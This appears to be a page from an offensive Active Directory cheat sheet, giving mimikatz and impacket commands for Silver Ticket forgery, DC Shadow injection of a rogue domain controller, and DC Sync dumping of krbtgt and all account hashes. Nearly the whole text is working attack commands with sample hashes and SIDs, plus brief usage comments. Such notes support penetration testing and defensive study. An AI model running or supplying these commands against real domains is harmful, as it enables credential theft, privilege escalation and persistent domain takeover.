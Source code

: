 # Silver Ticket
# Silver Ticket allows escalation of privileges on DC
# /target t he server/computer name where the service is hosted (ex: share.server.local, sql.server.local:1433, ...)
# /service - The service name for the ticket (ex: cifs, rpcss, http, mssql, ...)
kerberos::golden /user:morph3 /domain:domain /sid:domain-sid /target:evilcorp-sql102.evilcorp.local.1433 /service:MSSQLSvc /rc4:service-hash /ptt /id:1103
sqlcmd -S evilcorp-sql102.evilcorp.local
select SYSTEM_USER;
GO
kerberos::golden /user:JohnDoe /id:500 /domain:targetdomain.com /sid:S-1-5-21-1234567890-123456789-1234567890 /target:targetserver.targetdomain.com /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt



## AD Attacks

### DC Shadow
DC Shadow attack aims to inject malicious Domain Controllers into AD infrastructure so that we can dump actual AD members.

#Find sid for that user
wmic useraccount where (name='administrator' and domain='%userdomain%') get name,sid
#This will create a RPC Server and listen
lsadump::dcshadow /object:"CN=morph3,OU=Business,OU=Users,OU=ECORP,DC=ECORP,DC=local" /attribute:sidhistory /value:sid
# Run this from another mimikatz
lsadump::dcshadow /push
# After this unregistration must be done
# Relogin
lsadump::dcsync /domain:ECORP.local /account:krbtgt
# Now you must have krbtgt hash
https://attack.stealthbits.com/how-dcshadow-persistence-attack-works

### DC Sync
##
lsadump::dcsync /domain:domain /all /csv
lsadump::dcsync /user:krbtgt
#####
https://gist.github.com/monoxgas/9d238accd969550136db
powershell.exe -c "Import-Module .\Invoke-DCSync.ps1; Invoke-DCSync -PWDumpFormat"
#####
python secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
python secretsdump.py -system /tmp/SYSTEM -ntds /tmp/ntds.dit LOCAL
